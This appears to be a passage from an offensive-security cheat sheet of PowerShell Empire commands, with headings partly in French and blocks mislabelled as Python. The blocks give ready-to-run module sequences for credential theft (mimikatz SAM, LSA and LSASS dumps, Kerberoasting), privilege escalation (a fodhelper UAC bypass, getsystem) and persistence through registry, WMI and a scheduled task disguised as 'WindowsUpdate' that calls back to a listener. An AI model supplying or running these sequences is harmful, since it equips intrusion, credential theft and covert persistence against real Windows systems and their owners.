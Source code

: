 ### Credential Harvesting
```python
# Dump hashes SAM
usemodule credentials/mimikatz/sam
execute

# Dump LSA secrets
usemodule credentials/mimikatz/lsadump
execute

# Dump LSASS
usemodule credentials/mimikatz/logonpasswords
execute

# Kerberoasting
usemodule credentials/powerview/get_user_spn
execute
```

### Escalade de privilèges
```python
# Bypass UAC
usemodule privesc/bypassuac_fodhelper
set Listener https
execute

# Escalade via service
usemodule privesc/powerup/service_exe_restore
execute

# Token impersonation
usemodule privesc/getsystem
execute
```

### Persistence
```python
# Registry persistence
usemodule persistence/userland/registry
set Listener https
execute

# Scheduled task
usemodule persistence/elevated/schtasks
set Listener https
set TaskName WindowsUpdate
execute

# WMI persistence
usemodule persistence/elevated/wmi
set Listener https
execute
```
